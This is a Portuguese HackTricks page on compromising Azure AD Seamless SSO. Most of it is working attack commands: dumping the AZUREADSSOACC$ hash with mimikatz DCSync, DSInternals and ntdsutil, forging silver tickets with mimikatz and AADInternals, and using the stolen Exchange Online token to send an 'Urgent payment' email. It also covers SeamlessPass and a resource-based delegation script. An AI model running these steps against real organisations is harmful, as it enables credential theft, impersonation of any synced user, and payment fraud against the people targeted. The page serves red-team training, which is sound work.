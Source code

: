 # Az - SSO Sem Fricções

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Informações Básicas

[Dos documentos:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) O Azure Active Directory SSO Sem Fricções (Azure AD Seamless SSO) **loga automaticamente os usuários quando estão em seus dispositivos corporativos** conectados à sua rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para fazer login no Azure AD**, e geralmente, nem mesmo digitar seus nomes de usuário. Este recurso oferece aos seus usuários fácil acesso às suas aplicações baseadas em nuvem sem precisar de componentes adicionais on-premises.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basicamente, o Azure AD SSO Sem Fricções **loga os usuários** quando estão **em um PC conectado ao domínio on-prem**.

É suportado tanto por [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto por [**PTA (Autenticação Pass-through)**](pta-pass-through-authentication.md).

O SSO de Desktop usa **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC`$`** no AD on-prem. A senha da conta `AZUREADSSOACC$` é **enviada em texto simples para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD usa a senha enviada para descriptografar os tickets.

**Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets** Kerberos. O navegador da máquina unida ao domínio encaminha os tickets para este endpoint para SSO.

### On-prem -> nuvem

A **senha** do usuário **`AZUREADSSOACC$` nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash desta conta**, e então usá-lo para **criar tickets silver** para se conectar ao Azure com **qualquer usuário on-prem sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, você agora pode **gerar tickets silver**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar o ticket silver, os seguintes passos devem ser executados:

1. **Iniciar o Navegador:** O Mozilla Firefox deve ser iniciado.
2. **Configurar o Navegador:**
* Navegue até **`about:config`**.
* Defina a preferência para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para os [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Acessar a Aplicação Web:**
* Visite uma aplicação web que esteja integrada com o domínio AAD da organização. Um exemplo comum é [Office 365](https://portal.office.com/).
4. **Processo de Autenticação:**
* Na tela de login, o nome de usuário deve ser inserido, deixando o campo da senha em branco.
* Para prosseguir, pressione TAB ou ENTER.

{% hint style="success" %}
Isso não contorna o MFA se estiver habilitado
{% endhint %}

#### Opção 2 sem dcsync - SeamlessPass

Também é possível realizar este ataque **sem um ataque dcsync** para ser mais furtivo, como [explicado neste post do blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Para isso, você só precisa de um dos seguintes:

* **Um TGT de usuário comprometido:** Mesmo que você não tenha um, mas o usuário foi comprometido, você pode obter um usando o truque de delegação de TGT falso implementado em muitas ferramentas como [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) e [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Se você tiver a chave KRBTGT, pode criar o TGT que precisa para o usuário atacado.
* **Hash NTLM ou chave AES de um usuário comprometido:** O SeamlessPass se comunicará com o controlador de domínio com essas informações para gerar o TGT.
* **Hash NTLM ou chave AES da conta AZUREADSSOACC$:** Com essas informações e o Identificador de Segurança (SID) do usuário a ser atacado, é possível criar um ticket de serviço e autenticar com a nuvem (como realizado no método anterior).

Finalmente, com o TGT, é possível usar a ferramenta [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) com:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Mais informações para configurar o Firefox para funcionar com SSO sem interrupções podem ser [**encontradas neste post do blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Criando tickets Kerberos para usuários apenas na nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir SID para qualquer usuário da nuvem**. Dessa forma, os **tickets** Kerberos podem ser **criados também para usuários apenas na nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores apenas na nuvem agora está **bloqueado pela Microsoft**.\
Para mais informações, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Nuvem via Delegação Constrained Baseada em Recurso <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Qualquer pessoa que possa gerenciar contas de computador (`AZUREADSSOACC$`) no contêiner ou OU em que essa conta está, pode **configurar uma delegação constrained baseada em recurso sobre a conta e acessá-la**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referências

* [https://learn.microsoft.com/pt-br/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/pt-br/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/pt/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/pt/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Estou na sua nuvem, lendo os e-mails de todos - hackeando o Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
